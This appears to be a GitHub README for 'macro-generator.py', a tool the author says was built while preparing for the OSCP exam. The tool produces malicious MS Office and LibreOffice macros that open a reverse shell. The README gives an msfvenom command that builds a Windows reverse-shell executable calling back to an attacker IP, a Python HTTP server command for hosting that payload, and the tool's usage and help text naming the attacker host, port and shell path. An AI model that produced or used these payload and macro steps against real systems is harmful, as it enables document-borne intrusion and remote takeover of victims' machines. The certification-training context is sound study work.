 ### macro-generator.py: Generate malicious macros using different techniques for MS Office and Libreoffice

One script to quickly generate macros with reverse shell using 3 methods for MS Office and 1 for Libreoffice or Openoffice
Created when preparing for OSCP

Create a reverse shell exe with something like the following
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe -o shell.exe
```

Set a http server up to deliver payload using techniques 3 and 4
```
python3 -m http.server 80
```

Generate macros to paste in Microsoft Office and Libre Office
```
python3 macro-generator.py --host 192.168.1.1 --port 443 -r ':80/shell.exe'
```

Help Menu
```
Usage: macro-generator.py: Generate malicious macros using different techniques for MS Office and Libreoffice [-h] [-l HOST] [-p PORT] [-r RSHELL_PATH]

options:
  -h, --help            show this help message and exit
  -l HOST, --host HOST  IP address of attacker host
  -p PORT, --port PORT  PORT number of attacker listener
  -r RSHELL_PATH, --rshell RSHELL_PATH
                        Reverse rshell.exe location hosted on attacker machine, default=/win/rshell.exe, i.g ":8000/exp/shell.exe"

```


